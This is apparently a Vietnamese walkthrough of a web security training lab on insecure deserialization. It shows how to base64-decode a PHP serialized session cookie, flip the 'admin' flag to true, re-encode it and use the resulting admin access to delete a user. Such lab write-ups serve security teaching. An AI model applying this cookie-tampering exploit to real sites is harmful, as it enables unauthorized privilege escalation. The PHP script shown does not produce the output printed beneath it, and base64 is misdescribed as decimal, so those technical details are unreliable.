





# Writeup LAB Modifying serialized objects

## Goal
To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete the user `carlos.`
## Khai thác
Đăng nhập với tư cách người dùng `wiener`

Lịch sử HTTP Burpsuite

Sau khi đăng nhập thành công, một cookie phiên mới đã được thiết lập và URL được giải mã:
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=
```
Như bạn có thể thấy đuôi cuối cùng có dấu = đây là kí tự dạng hệ thập phân 64 thực hiện giải mã như sau:
```linux
❯ echo "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=" | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}   
```
Ở đây chúng ta có thể thấy được đối tượng `admin` có giá trị boolen `0` vậy bằng cách này chúng ta có thể sửa đổi thuộc tính 1 để leo thang đặc quyền <br>
Với những thông tin trên, chúng ta có thể viết mã PHP để tuần tự hóa và giải tuần tự hóa đối tượng PHP đó: <br>
```php
<?php
$desialize = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}';
$serialized = serialize($desialize);
echo "Serialized: " . $serialized . "\n";
var_dump($desialize);
?>
```
Kết quả:
```linux
❯ php payload.php
[+] Serialized:
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(false)
}
```
Lúc này chúng ta chỉ cân thay đổi thuộc tính admin thành 1 <br>
```linux
❯ php payload.php
[+] Serialized:
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(true)
}
[+] Base64 Encode:
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```
Dán mã base64 và thực hiện reload trang <br>

Chúng ta có thể thấy lúc này đã vào được trang quản trị và tiến hành xóa user `carlos`
